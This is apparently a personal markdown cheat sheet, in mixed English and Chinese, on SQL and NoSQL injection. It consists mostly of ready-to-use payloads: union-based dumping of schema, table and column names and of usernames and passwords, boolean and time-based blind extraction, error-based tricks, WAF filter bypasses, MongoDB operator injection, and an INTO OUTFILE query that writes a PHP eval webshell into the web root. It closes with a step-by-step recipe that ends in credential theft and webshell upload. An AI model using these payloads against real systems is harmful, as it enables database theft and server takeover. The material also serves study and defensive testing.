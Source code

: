# SQL injection  
SQL is a famous database engine which is used with web server. In this situation, we can inject some SQL based code to get what we want <3.  
[Remember, practice makes perfect!](http://www.tutorialspoint.com/mysql_terminal_online.php)   
  
### Basic injection  
select password from users where name = '$id';  
So, what can we insert into $id?  
```sql  
5566 or 1=1 --  
5566; drop table hello  // execute drop table on second line  

rafael' or 1=1 --  // select password from users where name = 'rafael' or 1=1 --';  
rafael' or ''='    // select password from users where name = 'rafael' or ''=''; 
```  
  
### Union based  
Try on terminal what will **SELECT name, password FROM users WHERE id = 1 UNION SELECT 1, 2** happen?  
Ans: The union result will show as second result with matching column of name and password!  
Therefore, if we just want the info we need, we can make the first clause not exist...  
```sql
select name, password from users where id = 1 and 1 = 0 union select 1, 2;  
```
```sql
// 秀出當前的庫名,使用者
select name, password from users where id = 1 and 1 = 0 union select database(), system_user();
```
```sql  
// 可以得到目前資料庫下的表名,欄位名  
... union select column_name, table_name from information_schema.columns where table_schema=database(); 
```
```sql
// 也可以得到其他資料庫的名字!  
... union select table_schema, table_name from information_schema.columns;  
// 我的 k朋友說: 尋找 資料庫就應該用schemata, 回傳才不會重複而且有效率
... union select group_concat(schema_name) from information_schema.schemata;  // group_concat會將結果合併成一行,我們甚至不需要limit
```
```sql
// 可以得到所有table和column的名字 
... union select table_name, column_name from information_schema.columns;
```
```sql
// 回傳的結果太多 , 我們可以用 limit加以限制
// 網頁常常只能show唯一的結果
... union select table_name, column_name from information_schema.columns limit 1, 1;  
```  
```sql  
// 在做union select時如何知道columns的數量  
? id =' or 1=1 order by N--+    // N一筆一筆增加直到頁面無法正確顯示, --+註解掉後面的條件, +是代表註解後面要有空白!
```
[What's in information_schema.columns?](https://dev.mysql.com/doc/refman/5.7/en/columns-table.html)  
**group_concat() is also a litte trick.**

### Blind based  
When we cannot show results what we want, we still can find whether it exists or not.  
**True**: Web page shows normal.  
**False**: Web page shows error or blank.  
**Boolean based**  
```sql
length(str)
substr(str,pos,len)   // start index is 1 !!, mid(str,pos,len)
ascii(str)    // we will get decimal,ord()
if(a,b,c)   // if a is true, return b, otherwise return c
id=1' and ascii(substr((select database()),1,1))>65--+
```
Blind-based會花非常多時間，所以可以自己寫script來代替手注! (有時間會把盲注腳本搞出來上傳><  
**Time based**  
```sql
id=1' and if(ascii(substr((select database()),1,1)>115),0,sleep(5))--+  // if 第一個字非s以後的字母 則延遲5秒
```
  
### Error based  
* Analyze the error message  
```sql
My payload: ?id = 2'
Error: You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''2'') LIMIT 0,1' at line 1
```
看到**near**和**at**的字眼，我們可以刪除左右的單引號，剩下的sql語句應是: ```'  2'  ') LIMIT 0,1```  
因此，注入語句應該是: ```') or 1=1--+```  
* Double injection 
```sql
/**
we need:
count()            // Important* 分組語句多要跟聚合語句配合才能回傳數據列
concat()            // error會把碰撞的主鍵吐出來，因此我們需要把key跟查詢對象concat在一起
floor(), rand()
group by
**/
?id = 1' union select count(*),1,concat((select database()),'~',floor(rand()*2))as a from information_schema.schemata group by a--+
// 當我們清楚原理之後，也可以改成:
?id = 1' or 1=1 group by concat(database(),floor(rand()*2)) having min(0)--+
```
```floor(rand()x2)``` 為穩定序列，造成```group by key```的碰撞! (非常推薦以下文章
[The recommended aticle](http://dogewatch.github.io/2017/02/27/mysql-Error-Based-Injection/)  
* Interger Overflow  
```exp()```在sql版本大於5.5.5時才會有error  
```sql
exp(~(select*from(select user())a));  // 內部查詢結果為0, 經過逐位取反(~)後得到的是18446744073709551615,然而exp(710)就會溢出!
// 後面的a ? 是alias, select*from 後再做子查詢需要給他別名
```
```select```回傳結果也可以用於計算，查詢成功->0，失敗->1 (非常重要!  
[The recommended article](http://vinc.top/2017/03/23/%E3%80%90sql%E6%B3%A8%E5%85%A5%E3%80%91%E6%95%B4%E5%BD%A2%E6%BA%A2%E5%87%BA%E6%8A%A5%E9%94%99%E6%B3%A8%E5%85%A5%E5%8E%9F%E7%90%86/)  
* xpath syntax error  
```extractvalue()```,```updatexml()```諸如此類函數可以對user指定xml語法做查詢語修改  
```sql
?id=1" or/and select extractvalue(1,concat(1,(select database()),0x7e));
?id=1" or/and select updatexml(1,concat(1,(select user()),0x7e),1);
// 由於中間xml語法錯誤，會將database()結果顯示於錯誤訊息
```

### WAF bypass
WAF is a defender for web.  
繞過手勢:  
- No 'space'  
  - ```select/**/username/**/from/**/users;```
  - ```union select 1,2``` -> ```union(select(1),2)```
- No 'select'...  
  - ```大小寫混淆 e.g. SelecT``` 
- No comma ','  
  - ```union select 1,2,3``` -> ```union select * from ((select 1)a join (select 2)b join (select 3)c);```   
- Encode your payload  
  - ```URL-ENCODE, HEXIDECIMAL, UNICODE```
  
### Dump file  
將查詢結果放到文件中, 或者將一句話木馬放到系統上的php文件中  
```sql
1' or 1 union select 1,2,"<?php @eval($_POST['hi']);?>" into outfile 'C://xampp/htdocs/sqli/Less-9/muma.php'--+ // 絕對路徑
// 注意前面的語句必須用雙引號處理
```  
熟悉各系統引擎的路徑有助於猜測...  
```php
// winserver IIS 下的 asp server
C:\inetpub\www\root\
// linux server 上 nginx
/usr/local/nginx/html, /home/www/root/default, /usr/share/nginx, /var/www/html
// limux 上 apache
/var/www/html, /var/www/html/htdocs
```  
或者從能輸出結果的頁面得到路徑...  
```sql
// @@basedir : sql 安裝路徑
// @@datadir : 數據庫安裝路徑
id=1' union select 1, @@basedir, @@datadir--+
```
e.g. @@basedir 我們得到```C:/xampp/mysql```的結果, 而網頁根目錄路徑便是```C:/xampp/htdocs/```
  
### Trick of Pentesting  
Here are some tricks of pentesting, step by step from find the vulnerability to exploit it!  
1. SQL vulnerability? injection point?  
```sql
1' or 1"
```
這裡, 我們要判斷出sql漏洞的存在與否, 並且從error message判斷原生語句 

2. Number of columns   
```sql
1' order by N--+   // 不斷增加N的數量, 直到頁面顯示錯誤
```
這裡我們就可以確認query的字段數, union select用起來也比較方便  

3. Where are the SNAKES we want?  
```sql
1' and 1=2 union select 1,2,...N--+   // 加以確認我們注入的東西會出現在哪裡
```  

4. First, we need to know some basic information...   
```sql
...union select user(),database(),version(), @@version_compile_os--+  // 後面兩個分別是資料庫版本以及作業系統版本
```  

5. Start the exciting part...  
```sql
...union select 1,2,...,group_concat(schema_name) from information_schema.schemata--+  // get all database name
```  
```sql
...union select 1,2,...,group_concat(table_name) from information_schema.tables where table_schema='FUCK'+--+  
// FUCK那邊也可以用hex表示
```
```sql
...union select 1,2,...,group_concat(column_name) from information_schema.columns where table_name='users'+--+
// 這邊還是比較喜歡用table_schema,如果懶得決定要鎖定哪張表XD...
```
```sql
// 最終目的
1' and 1=2 union 1,2,...,group_concat(username,password) from users+--+  
```  
6. After get username and password to login, we can write a webshell to upload!  

# NoSQL injection
MongoDB parse data in json format.  
Therefore, we can not use string to injection any more, but we can use ```{key:value}``` to get what we want.  
```sql
// The list of regex
$gt: >
$lt: <
$gte: >=
$lte: <=
$ne: not equal
$in: in
$nin: not in
$not:
$or

// expression of query
db.table_name.find({"column_name":value});      // where column = value
db.table_name.find({"column":{$reg:value}});    // where column $reg value
```

### pentesting cheatsheet  
Login first to find other hints
```sql
?username[$ne]=\&password[$ne]=\
```
Blind injection  
```sql
?username=admin&password[$regex]=^a
```

### Reference
* [Personal article - first time meet with NoSQL](https://shinmao.github.io/2018/03/01/My-First-NoSQL/)  
